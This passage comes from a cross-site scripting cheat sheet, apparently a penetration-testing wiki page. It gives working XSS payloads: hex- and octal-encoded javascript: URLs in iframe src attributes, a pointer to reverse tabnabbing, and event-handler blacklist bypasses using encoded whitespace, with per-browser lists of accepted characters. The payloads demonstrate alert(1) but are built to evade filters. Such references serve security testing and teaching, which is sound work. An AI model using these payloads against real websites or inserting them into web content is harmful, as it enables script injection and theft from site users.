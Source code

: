 Note that if you try to **use both** `URLencode + HTMLencode` in any order to encode the **payload** it **won't** **work**, but you can **mix them inside the payload**.

#### Using Hex and Octal encode with `javascript:`

You can use **Hex** and **Octal encode** inside the `src` attribute of `iframe` \(at least\) to declare **HTML tags to execute JS**:

```javascript
//Encoded: <svg onload=alert(1)>
// This WORKS
<iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />
<iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />

//Encoded: alert(1)
// This doesn't work
<svg onload=javascript:'\x61\x6c\x65\x72\x74\x28\x31\x29' />
<svg onload=javascript:'\141\154\145\162\164\50\61\51' />
```

### Reverse tab nabbing

```javascript
<a target="_blank" rel="opener"
```

If you can inject any URL in an arbitrary **`<a href=`** tag that contains the **`target="_blank" and rel="opener"`** attributes, check the **following page to exploit this behavior**:

{% page-ref page="../reverse-tab-nabbing.md" %}

### on Event Handlers Bypass

First of all check this page \([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)\) for useful **"on" event handlers**.  
In case there is some blacklist preventing you from creating this even handlers you can try the following bypasses:

```javascript
<svg onload%09=alert(1)> //No safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2c%3b=alert(1)>

//chars allowed between the onevent and the "="
IExplorer: %09 %0B %0C %020 %3B
Chrome: %09 %20 %28 %2C %3B
Safari: %2C %3B
Firefox: %09 %20 %28 %2C %3B
Opera: %09 %20 %2C %3B
Android: %09 %20 %28 %2C %3B
```
